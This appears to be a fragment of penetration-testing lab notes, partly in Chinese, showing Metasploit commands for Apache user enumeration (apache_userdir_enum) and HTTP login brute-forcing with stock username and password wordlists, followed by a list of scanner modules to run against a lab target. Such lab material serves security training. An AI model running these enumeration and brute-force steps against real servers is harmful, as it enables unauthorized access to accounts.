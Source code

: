```
unset USERPASS_FILE
```

```
show options
run
set USER_FILE /usr/share/metasploit-framework/data/wordlists/namelist.txt
set PASS_FILE /usr/share/metasploit-framework/data/wordlists/unix_passwords.txt
run
set VERBOSE false
run
```

Enumerate users. Identify specific usernames that will help us narrow down the brute force.

[Apache "mod_userdir" User Enumeration](https://www.rapid7.com/db/modules/auxiliary/scanner/http/apache_userdir_enum/)

Apache“mod_userdir”用户枚举

启用了 UserDir 指令的 Apache 在用户名存在且不存在 public_html 目录以及用户名不存在时生成不同的错误代码，这可能允许远程攻击者确定服务器上的有效用户名。

```
search apache_userdir_enum
use auxiliary/scanner/http/apache_userdir_enum
show option
info
```

This will help up identify valid users on the server.

```
set USER_FILE /usr/share/metasploit-framework/data/wordlists/common_users.txt
run
search http_login
use auxiliary/scanner/http/http_login
echo "rooty" > user.txt
set USER_FILE /root/user.txt
run
set VERBOSE true
run
```

# Apache Enumeration
## Overview
In this lab, run the following auxiliary modules again the target:
* auxiliary/scanner/http/apache_userdir_enum
* auxiliary/scanner/http/brute_dirs
* auxiliary/scanner/http/dir_scanner
* auxiliary/scanner/http/dir_listing
* auxiliary/scanner/http/http_put
* auxiliary/scanner/http/files_dir
* auxiliary/scanner/http/http_login
* auxiliary/scanner/http/http_header
* auxiliary/scanner/http/http_version
* auxiliary/scanner/http/robots_txt
